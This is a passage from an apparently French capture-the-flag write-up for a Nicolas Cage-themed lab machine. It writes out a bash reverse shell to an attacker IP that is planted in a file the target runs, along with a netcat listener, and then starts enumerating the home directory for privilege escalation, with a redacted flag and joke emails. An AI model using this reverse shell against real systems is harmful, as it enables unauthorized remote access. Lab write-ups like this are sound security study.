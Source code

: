 J'y ajouter un reverse shell dedans et met en place le listener.
```
echo "bash -i >& /dev/tcp/10.11.50.195/4444 0>&1" > .quotes
```
Sur ma kali:
```
nc -lnvp 4444
```
J'ai le shell en tant que cage au bout de quelques minutes.

# Privesc to root
Dans le dossier **/home** de cage on trouve un fichier et un dossier:
```
-rw-rw-r-- 1 cage cage  230 May 26  2020 Super_Duper_Checklist
drwxrwxr-x 2 cage cage 4096 May 25  2020 email_backup
```
Super_Duper_Checklist :
```
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{*****************}
```
Le 1er flag !
Ensuite dans le dossier **email_backup** on trouve 3 mails :

email 1
```
From - SeanArcher@BigManAgents.com
To - Cage@nationaltreasure.com

Hey Cage!

There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the
planning stages at the moment. I've put a good word in for you, if you're lucky we 
might be able to get you a part of an angry shop keeping or something? Would you be up
for that, the money would be good and it'd look good on your acting CV.

Regards

Sean Archer
```
email 2
```
From - Cage@nationaltreasure.com
To - SeanArcher@BigManAgents.com

Dear Sean

We've had this discussion before Sean, I want bigger roles, I'm meant for greater things.
Why aren't you finding roles like Batman, The Little Mermaid(I'd make a great Sebastian!),
the new Home Alone film and why oh why Sean, tell me why Sean. Why did I not get a role in the
new fan made Star Wars films?! There was 3 of them! 3 Sean! I mean yes they were terrible films.
I could of made them great... great Sean.... I think you're missing my true potential.

On a much lighter note thank you for helping me set up my home server, Weston helped too, but
not overally greatly. I gave him some smaller jobs. Whats your username on here? Root?

Yours

Cage
```
email 3
```
```